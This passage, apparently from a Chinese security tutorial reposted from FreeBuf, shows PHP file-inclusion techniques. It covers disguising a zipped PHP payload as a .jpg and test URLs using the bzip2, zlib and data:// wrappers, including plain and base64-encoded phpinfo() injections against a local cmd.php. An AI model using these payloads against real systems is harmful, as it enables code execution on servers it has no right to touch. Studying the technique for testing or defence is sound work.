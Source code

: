 先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。

由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。

**【bzip2://协议】**

使用方法：

	compress.bzip2://file.bz2

测试现象：

	http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

	or

	http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg

**【zlib://协议】**

使用方法：

	compress.zlib://file.gz

测试现象：

	http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

	or

	http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg

**【data://协议】**

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

测试现象：

	http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

	or

	http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

	http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

	or

	http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=PHP.ini：

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

参考自：http://php.net/manual/zh/wrappers.data.php, 官方文档上allow_url_fopen应为yes。

**常规小结：**

![akdTGq.png](https://s1.ax1x.com/2020/07/28/akdTGq.png)

转载于： https://www.freebuf.com/column/148886.html
